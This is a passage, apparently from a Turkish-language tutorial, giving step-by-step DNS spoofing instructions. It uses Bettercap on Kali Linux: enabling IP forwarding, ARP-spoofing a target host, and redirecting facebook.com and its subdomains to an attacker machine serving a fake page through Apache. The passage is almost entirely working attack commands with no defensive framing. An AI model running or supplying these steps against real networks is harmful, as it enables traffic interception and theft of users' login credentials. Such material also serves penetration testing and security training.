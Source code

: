    - IP yönlendirmesini etkinleştirin: `sudo sysctl -w net.ipv4.ip_forward=1`

   - Apache sunucusunu başlatın ve sahte sayfayı `/var/www/html/` dizinine yerleştirin.



**Kaynak:**[](https://www.kali.org/tools/dnschef/)



---



#### **4. Bettercap ile DNS Spoofing**

Bettercap, modern ve esnek bir MITM aracıdır ve DNS spoofing için güçlü bir seçenektir.



**Adımlar:**

1. **Bettercap Kurulumu:**

   - Bettercap genellikle Kali’de yüklüdür. Değilse: `sudo apt install bettercap`



2. **IP Yönlendirme Aktivasyonu:**

   - `sudo sysctl -w net.ipv4.ip_forward=1`



3. **Hedef ve Gateway Belirleme:**

   - Ağ arayüzünü ve hedefleri belirlemek için:

     ```

     sudo bettercap -iface eth0

     ```

   - Bettercap arayüzünde şu komutları kullanın:

     ```

     set arp.spoof.targets 192.168.1.11

     set dns.spoof.domains facebook.com,*.facebook.com

     set dns.spoof.address 192.168.1.100

     ```



4. **Saldırıyı Başlatma:**

   - ARP spoofing ve DNS spoofing modüllerini etkinleştirin:

     ```

     arp.spoof on

     dns.spoof on

     ```
